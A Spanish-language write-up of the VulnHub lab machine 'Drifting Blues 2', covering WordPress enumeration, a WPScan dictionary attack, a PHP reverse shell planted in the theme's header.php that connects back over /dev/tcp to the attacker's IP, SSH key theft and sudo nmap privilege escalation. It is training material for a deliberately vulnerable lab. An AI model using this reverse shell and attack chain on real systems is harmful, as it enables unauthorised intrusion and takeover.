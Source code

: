 ```yaml
---
title: Driffting Blues 2
date: 2024-08-10
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


Buenas, en esta máquina explotaremos un **Wordpress** con **WPScan**, para encontrar credenciales y poder obtener acceso a la máquina mediante el panel de administración de **Wordpress**, para escalar privilegios nos aprovecharemos de una mala administración de permisos para la **clave privada** de **SSH**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.145 -n -Pn -v
```

![picture](/assets/images/vulnhub/db2-1.png){: w="600" h="300" }

Una vez comprobado, se lanzarán los scripts predeterminados de NMAP, para ver si encuentra algo significativo en los puertos que se han encontrado abiertos.

```bash
nmap -p21,22,80 -sC -sV 192.168.1.145 -v
```

![picture](/assets/images/vulnhub/db2-2.png){: w="600" h="300" }

Se encuentra que el usuario **Anonymous** del servicio **FTP** está activo, y en su directorio podemos encontrar una imagen llamada "*secret.jpg*".

![picture](/assets/images/vulnhub/db2-3.png){: w="600" h="300" }
![picture](/assets/images/vulnhub/db2-4.png){: w="600" h="300" }

A continuación, iremos a la página web para ver su contenido.

![picture](/assets/images/vulnhub/db2-5.png){: w="600" h="300" }

No se aprecia nada, así que se realizará **Fuzzing**, para intentar encontrar alguna entrada que no se pueda ver.

```bash
gobuster dir -u http://192.168.1.145/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403 
```

![picture](/assets/images/vulnhub/db2-6.png)

Gobuster encuentra "**/blog/**", pero no se ven los estilos de la página.

![picture](/assets/images/vulnhub/db2-7.png)

Viendo el código fuente de la página, se puede comprobar que el servidor asociado a la **IP** tiene un nombre de **dominio**, el cual lo habrá que añadirlo al archivo "**/etc/hosts**".

![picture](/assets/images/vulnhub/db2-8.png)
![picture](/assets/images/vulnhub/db2-9.png)

Con esto ya se puede ver la página web tal como es, esto ocurre porque los servidores web a menudo utilizan nombres de dominio para decidir qué contenido mostrar, especialmente cuando se manejan múltiples sitios en la misma dirección IP. Usar un nombre de dominio en lugar de una IP permite que el servidor web sirva el contenido adecuado según la configuración de "virtual hosts". Cuando configuras el nombre de dominio en /etc/hosts, le estás diciendo a tu máquina que use ese nombre de dominio para la IP dada, lo que permite al servidor web responder correctamente basándose en esa información.

![picture](/assets/images/vulnhub/db2-10.png)

Con **Wappalyzer**, que es una extensión del navegador gratuita, se puede ver qué está corriendo por detrás de la página web, el gestor de contenidos es *Wordpress*, usa *php*, *mysql*, etc.

![picture](/assets/images/vulnhub/db2-12.png){: w="300" h="200" }

A continuación realizaré **Fuzzing** sobre "*http://driftingblues.box/blog/*" para ver si hubiera más entradas dentro de "**/blog/**".

![picture](/assets/images/vulnhub/db2-13.png)

---

## **Explotación**

Al ver que está corriendo un **Wordpress**, con **WPSCAN**, se podrá hacer un escaneo del gestor, (*es recomendable crearse una cuenta en WPSCAN para poder obtener la API-token, que sirve para acceder a ciertos servicios y características avanzadas proporcionados por WPScan*).

Ésta herramienta puede buscar *usuarios*, *vulnerabilidades*, *plugins*, *temas*... En este caso se buscarán usuarios.

```bash
wpscan --url http://driftingblues.box/blog -e u --api-token="API"
```

![picture](/assets/images/vulnhub/db2-14.png){: w="600" h="300" }

Y **WPSCAN** nos encuentra un usuario.

![picture](/assets/images/vulnhub/db2-15.png){: w="600" h="300" }

A continuación, se realizará un** ataque de diccionario** con la misma herramienta para encontrar la contraseña (*-U usuario*) (*-P ruta del diccionario*).

```bash
wpscan --url http://driftingblues.box/blog -U "usuario" -P /usr/share/wordlists/rockyou.txt --api-token="API"
```

![picture](/assets/images/vulnhub/db2-16.png)

Y encuentra la contraseña, así que lo siguiente será probar a entrar en el panel de autenticación **wp-admin** que había reportado antes **Gobuster** mediante el **Fuzzing** realizado en "*http://driftingblues.box/blog/*".

![picture](/assets/images/vulnhub/db2-17.png)

Y obtenemos acceso al panel del administrador.

![picture](/assets/images/vulnhub/db2-19.png)

A continuación, lo siguiente será obtener una **Shell interactiva** en nuestra máquina local, podremos escribir código **PHP** que se ejecutará dentro de "*Theme File Editor*", en el archivo "*header.php*".

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
?>
```

![picture](/assets/images/vulnhub/db2-20.png)

Y una vez guardado el archivo, se creará un **Listener** en la máquina local con **ncat** por el puerto indicado en la **Reverse Shell**.

- *Listener*

    ```bash
    nc -nlvp 4444
    ```

En el navegador, para poder ejecutar la **Reverse shell**, se introducirá la ruta del archivo "*header.php*". 

![picture](/assets/images/vulnhub/db2-21.png)

Y automáticamente, nos mandará una** Shell interactiva**, con lo cual, ya estaremos dentro del servidor.

![picture](/assets/images/vulnhub/db2-22.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Se realiza un tratamiento de la **TTY** para poder movernos mejor por la máquina.

Dentro de la máquina, el la ruta "**/home/**" se encuentra un usuario llamado **freddie**, no tenemos acceso a su directorio personal, lo siguiente será intentar migrar de usuario a **freddie**.

![picture](/assets/images/vulnhub/db2-23.png)

Viendo los permisos que tenemos dentro del directorio personal de **freddie**, se comprueba que el usuario **www-data** tiene permisos de lectura en el directorio "**.ssh**", que es el cual almacena las claves de conexión de ssh, y dentro del directorio indicado, también tiene permisos de lectura en la clave privada "**id_rsa**".

![picture](/assets/images/vulnhub/db2-24.png){: w="600" h="300" }

Mediante **SSH** se intentará entrar en el servidor como el usurio **freddie**, para ello, habrá que copiar la clave privada para crear un archivo con la clave en nuestra máquina local, la llamaremos igual (la clave privada tiene que tener permisos 600).

![picture](/assets/images/vulnhub/db2-25.png){: w="600" h="300" }

Se prueba a entrar, y se obtiene acceso al servidor como el usuario **freddie**.

![picture](/assets/images/vulnhub/db2-26.png){: w="600" h="300" }

Dentro del directorio personal de freddie, se encuentra la primera **flag**.

![picture](/assets/images/vulnhub/db2-27.png){: w="600" h="300" }

Comprobando los permisos de **SUDO** que tiene el usuario **freddie**, se comprueba que tiene los permisos en el binario "**/usr/bin/nmap**".

La web de **GTFObins** es una base de datos y un recurso para encontrar y documentar binarios de sistemas Unix/Linux, que pueden ser utilizados para obtener escalada de privilegios o ejecutar comandos en un entorno comprometido.

Dentro de la [**WEB**](https://gtfobins.github.io/gtfobins/nmap/) nos indica como escalar privilegios.

Lo ejecutamos, y obtenemos la shell de **root**, en su directorio personal encontramos la segunda **flag**.

![picture](/assets/images/vulnhub/db2-28.png){: w="600" h="300" }











